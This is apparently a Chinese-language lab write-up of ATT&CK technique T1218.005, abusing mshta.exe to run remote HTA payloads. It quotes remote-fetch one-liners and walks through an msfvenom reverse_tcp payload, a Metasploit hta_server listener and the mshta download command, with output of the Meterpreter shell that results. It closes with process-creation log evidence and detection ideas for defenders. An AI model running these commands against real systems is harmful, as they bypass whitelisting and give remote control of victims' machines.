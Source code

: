 # T1218-005-win-基于白名单Mshta.exe执行payload

## 来自ATT&CK的描述

Mshta.exe是一个执行微软HTA（HTML应用）的实用程序。HTA文件扩展名为.hta。HTA是独立的应用，使用与InternetExplorer相同的模型和技术来执行，但在浏览器之外执行。

攻击者可能会使用mshta.exe通过受信任的Windows实用程序来代理执行恶意.hta文件和Javascript或VBScript。已知攻击者在最初攻击阶段利用mshta.exe来执行代码的几个例子。

Mshta.exe可通过内联脚本来执行文件：mshtavbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))

也可以直接从URL执行：mshta http[:]//webserver/payload[.]hta

Mshta.exe可绕过不考虑其潜在用途的应用白名单解决方案。由于mshta.exe在InternetExplorer的安全上下文之外执行，因此它还会绕过浏览器安全设置。

## 测试案例

Mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。

说明：Mshta所在路径已被系统添加PATH环境变量中，因此，可直接执行Mshta.exe命令。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 7 默认位置：

C:\Windows\System32\mshta.exe

C:\Windows\SysWOW64\mshta.exe

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f hta-psh -o test5.hta

替换相关信息
```

#### 执行监听

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set lhost 192.168.126.146
msf exploit(windows/misc/hta_server) > set srvhost 192.168.126.146
msf exploit(windows/misc/hta_server) > exploit
```

#### 靶机执行payload

```bash
mshta.exe http://192.168.126.146:8080/Uj6Tcv.hta  #需要安装.net Framework 3.5
```

#### 反弹shell

```bash
msf5 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://192.168.126.146:8080/Uj6Tcv.hta
[*] Server started.
msf5 exploit(windows/misc/hta_server) > [*] 192.168.126.156  hta_server - Delivering Payload
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.156:50232) at 2020-04-14 11:03:33 +0800
```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
事件ID： 4688
进程信息:
新进程 ID:0xb20
新进程名称:C:\Windows\System32\mshta.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x13c
进程命令行:mshta.exe  http://192.168.126.146:8080/Uj6Tcv.hta
```

## 检测规则/思路

通过进程监控来检测和分析mshta.exe的执行和参数。查找在命令行中执行原始或混淆脚本的mshta.exe。比较mshta.exe的近期调用与历史已知合法参数及已执行二进制文件来确定是否有异常和潜在的攻击活动。在mshta.exe调用之前和之后使用的命令参数也可用于确定正在执行的二进制文件的来源和目的。

监控HTA文件的使用。在环境中执行不经常使用的HTA文件是可疑的。

## 参考推荐

MITRE-ATT&CK-T1218-005

<https://attack.mitre.org/techniques/T1218/005/>

远控免杀专题(37)-白名单Mshta.exe执行payload

<http://sec.nmask.cn/article_content?a_id=d1a4d20858c9283aef9ef49d2e98352c>
